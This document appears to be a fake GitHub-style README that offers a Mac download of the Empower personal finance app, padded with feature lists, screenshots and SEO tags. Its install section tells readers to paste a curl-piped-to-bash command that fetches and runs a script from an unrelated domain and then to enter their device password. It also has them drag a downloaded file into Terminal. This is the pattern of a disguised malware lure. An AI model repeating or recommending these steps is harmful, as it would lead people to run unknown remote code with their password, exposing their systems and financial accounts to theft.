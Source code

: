 # Empower App — Download For Mac OS 💼

Empower App is a smart personal finance tool that helps users track spending, build savings, and plan better financial futures. This guide lets you install Empower safely on your Mac. 🧠
![empower](https://www.banks.com/wp-content/uploads/2021/06/Empower-app-logo-256X256.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](#)

If the button doesn’t work, follow the terminal instructions below to install it manually.

---

## 📦 How to Install Empower App For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Empower App

* 💸 **Track All Spending** — View detailed expenses by category in real time.
* 🏦 **Connect Bank Accounts** — Securely sync your financial institutions.
* 📅 **Auto-Save Feature** — Set savings goals and let Empower automate it.
* 📊 **Budgeting Tools** — Build customized budgets tailored to your lifestyle.
* 🔔 **Smart Alerts** — Get notifications for unusual transactions or bills.
* 💼 **Wealth Tracking** — Monitor your net worth and investments.

---

## About Empower App

Empower App for Mac is a robust finance and budgeting application designed to give users full control over their money. With intuitive tools and real-time financial data, Empower helps users manage their income, expenses, and savings — all from their Mac desktop. Whether you're tracking bills, setting savings goals, or optimizing your spending, Empower delivers everything you need.

One of the standout features is automatic expense categorization, giving you deep insights into where your money goes each month. Empower’s budgeting tools allow you to set custom limits, track progress visually, and receive alerts to stay within bounds. It’s built for people who want more awareness and fewer financial surprises.

Empower App also shines with its Smart AutoSave tool, which uses AI to determine how much you can safely save each week and transfers that amount automatically. This is a huge benefit for users who struggle with saving consistently. Combined with its savings goal tracking and bill detection, it becomes your complete financial assistant.

Finally, Empower offers top-level encryption and security, ensuring your personal and financial data is always safe. This Mac version offers all features from the mobile app — now in a convenient desktop format for better productivity and clarity.

---

## ✅ Empower App Benefits

* 🔐 Bank-level encryption and privacy
* 📱 Seamless mobile-to-Mac integration
* 🔄 Real-time syncing with financial accounts
* 🚨 Personalized alerts for smart decision-making
* 🧮 Smart AutoSave recommendations
* 🧭 Net worth and investment tracking in one place

---

## 🖼 Preview

![Empower Dashboard](https://robberger.com/wp-content/uploads/2023/02/desktop-dashboard-EMP-1024x748.png)
*Real-time overview of your net worth and account balances*

![Empower AutoSave](https://i.postimg.cc/x8xg45p0/empower-2.png)
*Smart AutoSave helping you build savings effortlessly*

![Empower Budget](https://i.postimg.cc/Y0ZzW9zJ/empower-3.png)
*Track and customize your monthly budget easily*

![Empower Insights](https://i.postimg.cc/L6hRmHk5/empower-4.png)
*Receive AI-powered insights to improve spending habits*

---

## 🔍 Tags

empower app, empowerment app, empower ai, empower loan app, empower app review, download empower app, empower app download, empower login app, empower loan application, empower app mac, download empower free, empower budget app for mac, financial tracker mac, empower finance for mac, money manager empower, empower app desktop version, best finance app mac, personal finance empower mac, empower spending tracker
